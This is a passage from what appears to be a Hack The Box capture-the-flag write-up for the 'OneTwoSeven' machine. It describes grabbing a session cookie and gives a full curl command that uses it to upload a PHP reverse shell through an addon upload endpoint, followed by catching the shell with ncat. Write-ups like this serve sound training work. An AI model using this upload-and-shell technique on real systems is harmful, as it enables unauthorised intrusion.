 ![burp-request](onetwoseven-burp-request.png)

An alternative and simpler way is to use the "developer-tools" of your browser to get the cookie.

![ff-sessionid](onetwoseven-alternate-sessionid.png)

After some trial and error I came up with the following command:

```
curl -H 'Cookie: PHPSESSID=immqdajjjet662lm9qctfrt7h3' -H 'Host: onetwoseven.htb' --form 'addon=@/root/HTB/Boxes/OneTwoSeven/ots-shell.php' 'http://127.0.0.1:60080/addon-download.php?addon=/addon-upload.php' -vvv

```


<a href="https://davidwalsh.name/curl-post-file" target="_blank">This article</a> was very helpful if you want to learn more.

After uploading a simple "php-reverse-shell", we can open a "ncat" session and launch our "reverse-shell" and doing our cli-magic after receiving it.

![shell-magic](onetwoseven-revshellmagic.png)